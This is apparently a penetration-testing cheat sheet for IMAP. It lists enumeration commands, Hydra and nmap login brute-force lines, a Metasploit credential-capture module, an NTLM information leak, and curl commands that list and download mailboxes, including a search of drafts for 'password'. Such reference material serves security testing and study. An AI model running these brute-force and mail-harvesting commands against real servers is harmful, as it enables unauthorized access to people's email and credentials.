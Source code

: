 # IMAP

## Introduction

[Internet Message Access Protocol](https://whatis.techtarget.com/definition/IMAP-Internet-Message-Access-Protocol)

Like POP, IMAP is used for email retrieval (client side protocol).

port TCP 143 for no encryption

port TCP 993 for SSL/TLS

## &#x20;Checklist

* [ ] Login brute force
* [ ] Check for IMAP - NTLM auth
* [ ] Use curl to navigate
* [ ] Try to capture IMAP credentials&#x20;

## Enumeration

```
nc -nv <IP> 143
use auxiliary/scanner/imap/imap_version
openssl s_client -connect <IP>:993 -quiet
nmap -sV --script imap-apabilities
```

## Login Brute Force

```
nmap --script imap-brute
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
nmap -sV --script imap-brute -p <PORT> <IP>
```

## Capture IMAP Authentication

```
use auxiliary/server/capture/imap
```

## IMAP - NTLM Auth

If the server supports NTLM auth (Windows) you can obtain sensitive info (versions):

### Manual

```
telnet example.com 143
* OK The Microsoft Exchange IMAP4 service is ready.
>> a1 AUTHENTICATE NTLM
+
>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA= 
+ TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
```

### Automated

```
nmap --script imap-ntlm-info [target ip]
```

## Navigation with CURL

Listing mailboxes (imap command `LIST "" "*"`)

```
$ curl -k 'imaps://1.2.3.4/' --user user:pass
```

Listing messages in a mailbox (imap command `SELECT INBOX` and then `SEARCH ALL`)

```
$ curl -k 'imaps://1.2.3.4/INBOX?ALL' --user user:pass
```

The result of this search is a list of message indicies.

Its also possible to provide more complex search terms. e.g. searching for drafts with password in mail body:

```
$ curl -k 'imaps://1.2.3.4/Drafts?TEXT password' --user user:pass
```

Downloading a message (imap command `SELECT Drafts` and then `FETCH 1 BODY[]`)

```
$ curl -k 'imaps://1.2.3.4/Drafts;MAILINDEX=1' --user user:pass
```

